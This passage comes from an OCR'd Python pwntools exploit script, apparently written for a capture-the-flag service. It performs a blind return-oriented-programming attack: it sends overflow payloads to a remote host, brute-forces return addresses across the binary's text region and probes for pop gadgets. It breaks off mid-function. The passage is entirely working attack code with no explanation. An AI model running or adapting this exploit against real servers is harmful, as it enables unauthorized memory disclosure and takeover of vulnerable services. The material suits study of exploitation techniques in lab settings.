 ```py
                break
            io.close()
    return rip


def ScanText():
    for i in range(0, 0x1000):
        pwn.log.info("Scanning: " + hex(BINARY_BASE + i))
        io = pwn.remote(HOST, PORT, level='critical')
        payload = b'A'*OFFSET + pwn.p64(BINARY_BASE + i)
        io.send(payload)
        mssg = io.recv(0x1000)
        if mssg != b'Are you blind my friend?\n' and mssg != b'Are you blind my friend?':
            print("Offset", i, "Addr", BINARY_BASE+i, mssg)
        io.close()


def FindBropGadget():
    possible = []
    for i in range(BINARY_BASE, BINARY_BASE+0x1000):
        pwn.log.info("Scanning: " + hex(i))
        io = pwn.remote(HOST, PORT, level='critical')
        payload = b'A'*OFFSET
        payload += pwn.p64(i)  # Possible pop gadget
        payload += pwn.p64(0)  # pop rbx
        payload += pwn.p64(0)  # pop rbp
        payload += pwn.p64(0)  # pop r12
        payload += pwn.p64(0)  # pop r13
        payload += pwn.p64(0)  # pop r14
        payload += pwn.p64(0)  # pop r15
        payload += pwn.p64(DUMP_FUNC)
        io.send(payload)
        mssg = io.recv(0x1000, timeout=0.2)
        if b'Do not dump' in mssg:
            pwn.log.success("Found pop gadget at: " + hex(i))
            possible.append(i)
        io.close()
    return possible


def CheckBROP():
    # possible = [4196110, 4196282]
    # for i in possible:
    #     io = pwn.remote(HOST, PORT, level='critical')
    #     payload = b'A'*OFFSET
    #     payload += pwn.p64(i + 7)  # possilbe pop 2 gadget
    #     payload += pwn.p64(0)  # pop rsi
    #     payload += pwn.p64(0)  # pop r15
    #     payload += pwn.p64(DUMP_FUNC)
    #     io.send(payload)
    #     mssg = io.recv(0x1000, timeout=0.2)
    #     if b'Do not dump' in mssg:
    #         pwn.log.success("Found pop gadget at: " + hex(i))
    #     io.close()
    possible = [4196110, 4196282]
    for i in possible:
        io = pwn.remote(HOST, PORT, level='critical')
        payload = b'A'*OFFSET
        payload += pwn.p64(i + 9)  # possilbe pop 2 gadget
        payload += pwn.p64(0)  # pop rdi
        payload += pwn.p64(DUMP_FUNC)
        io.send(payload)
        mssg = io.recv(0x1000, timeout=0.2)
```